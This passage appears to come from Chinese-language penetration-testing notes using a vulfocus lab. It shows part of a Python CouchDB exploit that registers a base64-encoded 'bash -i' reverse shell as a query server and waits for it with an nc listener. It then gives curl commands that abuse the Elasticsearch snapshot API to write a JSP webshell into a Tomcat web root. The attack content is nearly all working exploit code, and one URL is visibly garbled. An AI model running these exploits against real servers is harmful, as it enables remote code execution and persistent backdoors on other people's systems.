 ```plain
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
执行：G:\python38\python.exe exp.py
监听：nc-lvvp 5566
```

![1649481101942-469c3da5-d6c0-4bb7-876b-4b7355619fcc.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134220191-28322801.png)

- ElasticSearch-文件写入&RCE-漏洞

```plain
默认端口：9200 9300

一般在蓝队中，经常与kibana一起搭建，用于日志分析等。
```

文件写入

```plain
启动环境：http://vulfocus.io/#/dashboard

-Elasticsearch 文件写入 wooyun_2015_110216
9200一般为ElasticSearch的常用端口，此漏洞环境需要与中间件使用
1、发现9200端口存在elasticsearch页面，8080存在tomcat目录，需要配合网站中间件
2、利用ElasticSearch写入后门到/usr/local/tomcat/webapps/wwwroot/(tomocat安装目录)

直接执行命令：
curl -XPOST http://123.58.236.76:31619/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'

curl -XPUT 'http://123.58.236.76:31619/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'


curl -XPUT "htt31620p://123.58.236.76:31619/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
```